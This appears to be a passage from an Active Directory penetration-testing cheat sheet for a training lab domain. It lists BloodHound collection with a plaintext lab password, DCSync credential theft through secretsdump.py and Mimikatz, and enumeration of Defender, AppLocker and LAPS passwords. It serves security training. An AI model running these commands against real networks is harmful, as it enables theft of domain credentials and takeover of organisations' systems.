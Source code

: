    Used to perform a recursive search (`-PU`) for users with nested permissions using valid credentials. Performed from a Linux-based host.

`sudo bloodhound-python -u 'forend' -p 'Klmcargo2' -ns 172.16.5.5 -d inlanefreight.local -c all`

    Executes the python implementation of BloodHound (`bloodhound.py`) with valid credentials and specifies a name server (`-ns`) and target Windows domain (`inlanefreight.local`) as well as runs all checks (`-c all`). Runs using valid credentials. Performed from a Linux-based host.

DCSync

`Get-DomainUser -Identity adunn | select samaccountname,objectsid,memberof,useraccountcontrol |fl`

    PowerView tool used to view the group membership of a specific user (`adunn`) in a target Windows domain. Performed from a Windows-based host.

`$sid= "S-1-5-21-3842939050-3880317879-2865463114-1164" Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} | select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl`

    Used to create a variable called SID that is set equal to the SID of a user account. Then uses PowerView tool `Get-ObjectAcl` to check a specific user's replication rights. Performed from a Windows-based host.

`secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 -use-vss`

    Impacket tool sed to extract NTLM hashes from the NTDS.dit file hosted on a target Domain Controller (`172.16.5.5`) and save the extracted hashes to an file (`inlanefreight_hashes`). Performed from a Linux-based host.

`mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator`

    Uses `Mimikatz` to perform a `dcsync` attack from a Windows-based host.

Enumerating Security Controls

`Get-MpComputerStatus`

    PowerShell cmd-let used to check the status of `Windows Defender Anti-Virus` from a Windows-based host.

`Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections`

    PowerShell cmd-let used to view `AppLocker` policies from a Windows-based host.

`$ExecutionContext.SessionState.LanguageMode`

    PowerShell script used to discover the `PowerShell Language Mode` being used on a Windows-based host. Performed from a Windows-based host.

`Find-LAPSDelegatedGroups`

    A `LAPSToolkit` function that discovers `LAPS Delegated Groups` from a Windows-based host.

`Find-AdmPwdExtendedRights`

    A `LAPSTookit` function that checks the rights on each computer with LAPS enabled for any groups with read access and users with `All Extended Rights`. Performed from a Windows-based host.

`Get-LAPSComputers`

    A `LAPSToolkit` function that searches for computers that have LAPS enabled, discover password expiration and can discover randomized passwords. Performed from a Windows-based host.
